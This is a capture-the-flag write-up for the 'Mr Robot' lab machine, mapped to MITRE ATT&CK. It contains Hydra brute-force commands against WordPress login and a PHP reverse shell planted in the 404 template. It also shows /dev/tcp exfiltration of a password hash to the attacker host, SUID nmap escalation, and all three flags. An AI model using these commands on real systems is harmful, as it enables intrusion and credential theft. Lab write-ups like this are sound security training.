<p align="center">
  
</p>

---
<div align="center">

<table border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Mr Robot CTF</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>20.03.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Medium 🟡</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Web / PrivEsc / Password Attacks / Linux</td>
  </tr>
</table>

</div>

---
## Attack Flow

- [openVPN](#openvpn)
- [scanning](#scanning)
- [fuzzing / first flag](#fuzzing--first-flag)
- [Brute Force wp-login.php](#brute-force-wp-login)
- [Theme Editor (WordPress)](#theme-editor)
- [reverse shell (C2)](#reverse-shell)
- [unsecured credentials / exfiltration](#unsecured-credentials)
- [Brute-Force md5 hash](#brute-force-md5-hash)
- [Horizontal PrivEsc (local account) / second flag](#horizontal-privesc--second-flag)
- [files enumeration](#files-enumeration-suid)
- [Vertical PrivEsc (SUID) / root flag](#vertical-privesc--root-flag)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>
  <tbody>
   <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>Access to the internal network via OpenVPN connections</td>
   </tr>

   <tr><td colspan="3" height="10"></td></tr>

   <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059.004 - Command and Scripting Interpreter: Unix Shell</b></td>
      <td>Execution of a Unix shell via server-side PHP code injection</td>
   </tr>

   <tr><td colspan="3" height="10"></td></tr>

   <tr>
      <td align="left"><b>TA0003 - Persistence</b></td>
      <td align="left"><b>T1505.003 - Server Software Component: Web Shell</b></td>
      <td>Storing malicious code within a server component</td>
   </tr>

  <tr><td colspan="3" height="10"></td></tr>

  <tr>
    <td rowspan="2" align="left"><b>TA0004 - Privilege Escalation</b></td>
    <td align="left"><b>T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid</b></td>
    <td>Exploiting an executable <b>nmap</b> file with SUID set</td>
  </tr>
  <tr>
    <td align="left"><b>T1078.003 - Valid Accounts: Local Accounts</b></td>
    <td>valid credentials for the local user <b>robot</b></td>
  </tr>

   <tr><td colspan="3" height="10"></td></tr>

  <tr>
    <td rowspan="3" align="left"><b>TA0006 - Credential Access</b></td>
    <td align="left"><b>T1110.001 - Brute Force: Password Guessing</b></td>
    <td>Brute-force attack on wp-login.php to gain access to the admin panel</td>
  </tr>
  <tr>
    <td align="left"><b>T1110.002 - Brute Force: Password Cracking</b></td>
    <td>Cracking the MD5 hash of the <b>robot</b> user's password</td>
  </tr>
  <tr>
    <td align="left"><b>T1552.001 - Unsecured Credentials: Credentials In Files</b></td>
    <td>the hash of the <b>robot</b> user's password in their home directory</td>
  </tr>

  <tr><td colspan="3" height="10"></td></tr>

  <tr>
    <td rowspan="2" align="left"><b>TA0007 - Discovery</b></td>
    <td align="left"><b>T1046 - Network Service Discovery</b></td>
    <td>nmap scanning and fuzzing</td>
  </tr>
  <tr>
    <td align="left"><b>T1083 - File and Directory Discovery</b></td>
    <td>A file found with the SUID bit set</td>
  </tr>

  <tr><td colspan="3" height="10"></td></tr>

   <tr>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>T1005 - Data from Local System</b></td>
      <td>The user and root flags have been collected</td>
   </tr>

  <tr><td colspan="3" height="10"></td></tr>

   <tr>
      <td align="left"><b>TA0011 - Command and Control</b></td>
      <td align="left"><b>T1095 - Non-Application Layer Protocol</b></td>
      <td>Reverse TCP shell established via netcat</td>
   </tr>

   <tr><td colspan="3" height="10"></td></tr>

   <tr>
      <td align="left"><b>TA0010 - Exfiltration</b></td>
      <td align="left"><b>T1048.003 - Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol</b></td>
      <td>The file containing the MD5 hash of the user's password was exfiltrated from the target system for offline analysis.</td>
   </tr>

  </tbody>
</table>

<br>

### Tools Used

<table border="1" cellpadding="6" cellspacing="0">
  <tr>
    <th>Nmap</th>
    <th>ffuf</th>
    <th>curl</th>
    <th>hashcat</th>
    <th>NetCat</th>
    <th>Python</th>
    <th>hydra</th>
  </tr>
</table>

<br>

<table border="1" cellpadding="6" cellspacing="0">
  <tr>
    <th>🟢 Flag 1</th>
    <td><code>073403c8a58a1f80d943455fb30724b9</code></td>
  </tr>
  <tr>
    <th>🟢 Flag 2</th>
    <td><code>822c73956184f694993bede3eb39f959</code></td>
  </tr>
  <tr>
    <th>🟢 Flag 3</th>
    <td><code>04787ddef27c3dee1ee161b21670b4e4</code></td>
  </tr>
</table>

</div>


<h2 align="center"> 📝 Report</h2>

> [!IMPORTANT]
`Initial access` to the internal lab network was established via a provided `OpenVPN configuration file (.ovpn)`, representing a simulated access
path consistent with MITRE ATT&CK technique `T1133 (External Remote Services)`. Subsequent ATT&CK mappings focus on actions performed
`after internal network access was established`.

### openvpn

```bash

sudo openvpn eu-central-1-sonyahack1-regular.ovpn

```

<p align="center">
 
</p>

### scanning

> We scan the target within the network and determine open ports/services:

```bash

sudo nmap -p- -vv -n -T5 --min-rate=1000 10.80.150.182 -oN full_port_scan.txt

```
```bash

Discovered open port 443/tcp on 10.80.150.182
Discovered open port 80/tcp on 10.80.150.182
Discovered open port 22/tcp on 10.80.150.182

```
```bash

sudo nmap -p22,80,443 -sVC 10.80.150.182 -oN service_scan.txt

```
```bash

22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

```

> Let's open the website in a browser:

<p align="center">
 
</p>

### fuzzing / first flag

> We can enter the suggested commands, but we won’t find anything interesting or useful there. So let’s move on with our exploration and start `fuzzing`:

```bash

ffuf -u 'http://10.80.150.182/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c -e .txt -fs 223,222

```
> Results:

<p align="center">
 
</p>

> Excellent. From the fuzzing results, we obtain the file `robots.txt`. Let's display its contents:

```bash

curl -i http://10.80.150.182/robots.txt

HTTP/1.1 200 OK
Date: Fri, 20 Mar 2026 19:11:22 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Last-Modified: Fri, 13 Nov 2015 07:28:21 GMT
ETag: "29-52467010ef8ad"
Accept-Ranges: bytes
Content-Length: 41
Content-Type: text/plain

User-agent: *
fsocity.dic
key-1-of-3.txt

```

> In `robots.txt` we find two files: `fsocity.dic` and `key-1-of-3.txt`. The provided dictionary could potentially contain a useful endpoint or account password.

<p align="center">
 
</p>

> But we'll return to the dictionary a little later.

> The file `key-1-of-3.txt` contains our `first flag`:

```bash

curl http://10.80.150.182/key-1-of-3.txt

073403c8a58a1f80d943455fb30724b9

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 1</b><br/>
      <code>073403c8a58a1f80d943455fb30724b9</code>
    </td>
  </tr>
</table>

</div>

> If we fuzz for a longer period, we discover interesting endpoints characteristic of the **CMS** `WordPress`:

<p align="center">
 
</p>

> We're particularly interested in `wp-login.php`. Let's open it in a browser:

<p align="center">
 
</p>

> We see the login form. Previously, we found a dictionary in `robots.txt` that could potentially contain the password for a `WordPress account`. But we don't have a valid login.

### Brute Force wp-login

> Let's use the `Hydra` tool to brute-force the `wp-login.php` form. By default, this form has a major drawback: it allows identification of valid usernames based on login error messages.
> If the login is invalid, we'll receive the error message: `ERROR: Invalid username` regardless of the password we enter. For example, we try to enter `user:user`:

<p align="center">
 
</p>

> Using this information, let's run a brute force attack on the login dictionary `malenames-usa-top1000.txt` with a password, for example, `qwerty123`:

```bash

hydra -L /usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt -p qwerty123 10.80.150.182 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:F=Invalid username" -f

```

> Results:

<p align="center">
 
</p>

> Great. We have a valid login, `ELLIOT`.

> Let's return to our `fsocity.dic` dictionary. Copy its contents into the file and look at the number of endpoints in it:

```bash

cat robot_wordlist.txt | wc -l

858160

```

> `858160` - That's too much. Let's try to eliminate the repetitions:

```bash

sort -u robot_wordlist.txt > wordlist.txt

```
```bash

cat wordlist.txt | wc -l

11451

```

> `11451` is better. Let's run brute-force again via `hydra`, but this time we'll use our dictionary as the password:

```bash

hydra -l ELLIOT -P wordlist.txt 10.80.150.182 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:F=ERROR" -t 4

```

> Results:

<p align="center">
 
</p>

> We obtain valid login credentials: `ELLIOT:ER28-0652`. We use them to log in to the `WordPress admin panel`.

<p align="center">
 
</p>

> We are inside the control panel.

### Theme Editor

> To access the system, we'll use WordPress's legitimate template editing feature. Go to `Appearance` -> `Editor`:

<p align="center">
 
</p>

> From the list of available templates, select `404 Template`. We'll use this template to gain access to the system:

<p align="center">
 
</p>

> In the template editor, we see the code that is executed when a non-existent page is opened:

<p align="center">
 
</p>

> Let's add our PHP code with a `reverse shell` to the end:

```bash

<?php
$ip = '192.168.221.187';
$port = 4141;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

<p align="center">
 
</p>

### reverse shell

> Let's save the template and run the `netcat listener`. Trigger an error in the browser:

```bash

nc -lvnp 4141
listening on [any] 4141 ...

```

<p align="center">
 
</p>

```bash

nc -lvnp 4141
listening on [any] 4141 ...

connect to [192.168.221.187] from (UNKNOWN) [10.80.150.182] 43820
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$

```

### Unsecured credentials / exfiltration

> After gaining access to the system, basic enumeration revealed an unsalted `MD5 hash` of the `robot` user's password located in the home directory:

```bash

daemon@ip-10-80-150-182:~$ ls -lah /home/robot/
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 4 root  root  4.0K Jun  2  2025 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

daemon@ip-10-80-150-182:~$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

daemon@ip-10-80-150-182:~$

```

> The file is exfiltrated to our machine for further `brute-force attacks`:

```bash

cat /home/robot/password.raw-md5 > /dev/tcp/192.168.221.187

```
```bash

nc -lvnp 9001 > robot_pass.txt
listening on [any] 9001 ...
connect to [192.168.221.187] from (UNKNOWN) [10.80.150.182] 53284

```

### Brute-Force md5 hash

> The value `c3fcd3d76192e4007dfb496cca67e13b` is an MD5 hash. We perform offline brute-force cracking using the appropriate `hashcat` module:

```bash

hashcat -m 0 robot_pass.txt /usr/share/wordlists/rockyou.txt --force

```

<p align="center">
 
</p>

### Horizontal PrivEsc / second flag

> We use the received password and log in as `robot`:

```bash

daemon@ip-10-80-150-182:~$ su robot
Password:
$ bash
robot@ip-10-80-150-182:/usr/sbin$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@ip-10-80-150-182:/usr/sbin$

```

> In the user's home directory, we get the `second flag`:

```bash

robot@ip-10-80-150-182:/usr/sbin$ cd ~
robot@ip-10-80-150-182:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@ip-10-80-150-182:~$

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 2</b><br/>
      <code>822c73956184f694993bede3eb39f959</code>
    </td>
  </tr>
</table>

</div>

### files enumeration (SUID)

> We enumerate all executable files with the `SUID` bit set:

```bash

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
> Results:

<p align="center">
 
</p>

> From the output, we see `nmap` with the `suid` flag set. Let's go to `gtfobins.org`:

<p align="center">
 
</p>

### vertical PrivEsc / root flag

> The SUID-enabled `nmap` binary was leveraged to achieve privilege escalation and obtain `root-level access`:

```bash

robot@ip-10-80-150-182:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
#

```

> We get the root flag from the `/root` directory:

```bash

# cd /root
# ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
#

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 3</b><br/>
      <code>04787ddef27c3dee1ee161b21670b4e4</code>
    </td>
  </tr>
</table>

</div>

> Machine is pwned.

<p align="center">
  
</p>
